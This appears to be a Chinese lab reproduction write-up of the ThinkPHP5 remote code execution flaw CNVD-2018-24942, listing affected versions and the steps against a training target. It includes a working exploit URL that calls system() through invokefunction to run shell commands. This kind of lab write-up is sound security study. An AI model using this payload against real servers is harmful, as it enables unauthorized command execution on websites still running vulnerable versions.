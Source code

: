 # ThinkPHP5远程代码执行漏洞（CNVD-2018-24942）by [hu4wufu](https://github.com/hu4wufu)

## 概述

ThinkPHP5 存在远程代码执行漏洞。该漏洞由于框架对控制器名未能进行足够的检测，攻击者利用该漏洞对目标网站进行远程命令执行攻击。

## 影响版本

上海顶想信息科技有限公司 ThinkPHP 5.*，<5.1.31

上海顶想信息科技有限公司 ThinkPHP <=5.0.23

## 漏洞复现

1、打开靶场，开启此漏洞对应靶场环境： thinkphp5x 任意代码执行漏洞 (cnvd-2018-24942)![1](./1.png)

2、直接在目录后面增加路径与参数即可

```
/index.php/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls /tmp

```

![2](./2.png)

## 参考链接

https://github.com/fofapro/vulfocus/blob/master/writeup/CNVD-2018-24942/CNVD-2018-24942.md

